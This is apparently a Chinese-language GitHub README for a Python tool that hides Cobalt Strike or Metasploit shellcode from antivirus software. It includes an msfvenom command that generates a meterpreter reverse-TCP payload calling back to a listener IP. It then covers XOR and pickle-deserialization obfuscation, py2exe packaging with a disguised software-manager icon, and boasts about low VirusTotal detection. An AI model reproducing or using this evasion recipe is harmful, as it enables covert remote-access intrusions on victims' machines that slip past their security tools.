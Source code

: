 # CS MSF 均可使用
_描述：前阵子可动态免杀绝大部分杀软，最近发现微软的Defender 动态免杀 不了，想了想还是放出来吧，供大家参考下_

**可以的话，老哥们点个star吧 嘻嘻**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav1.png)

`1、Filehandle.py用于处理CS MSF 生成的shellcode文件 提取 shellcode`

`2、ver.py 是核心生成代码，需修改`

`3、exeSetup.py 是 py2exe 打包启动文件，可修改`

**VT上只有匹配到了1个！还是很Nice**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav.png)



# 原理：
python 反序列化免杀

# 环境：
_测试时，我发现 python 3.7.0 这个版本兼容好，其他版本会有些问题，打包的程序可能无法正常使用！！！_

	* python 3.7.0  
	* py2exe库 【pyinstall指纹已经被很多杀软收集了】
	* python3.7.0淘宝镜像-http://npm.taobao.org/mirrors/python/3.7.0/python-3.7.0.exe
	


# 步骤
** 1、生成shellcode

	* CS 生成C语言格式
	* MSF msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.47.147 lport=4444 -b '\x00' -f python

** 2、修改 ver.py 文件里的 shellcode值

  [1] Filehandle.py 用于处理 第一步里的 shellcode文件
  
  [2] ver.py 可修改异或密钥

          #key 设定shellcode的密钥
          key = 'liam'
          mess = get_shellcode(shellcode, key)
          #print(mess)
          ret = pickle.dumps(Student())
          decode_hex = codecs.getdecoder("hex_codec")
          encode_hex = codecs.getencoder("hex_codec")
          
          ret_hex = encode_hex(ret)[0]
          #key2 设定反序列化里的密钥
          key2 = "byav"


** 3、可在 exeSetup.py 修改生成的图标

     setup(
      options=options,    
      description = "this is a py2exe test",   
      zipfile=None,
      windows = [{"script":'launch.py',"icon_resources": [(1, u"softmgr.ico")]}]  #可选择其他图标ico
      )


** 4、运行 ver.py 后在 output 目录可查看到 launch.exe
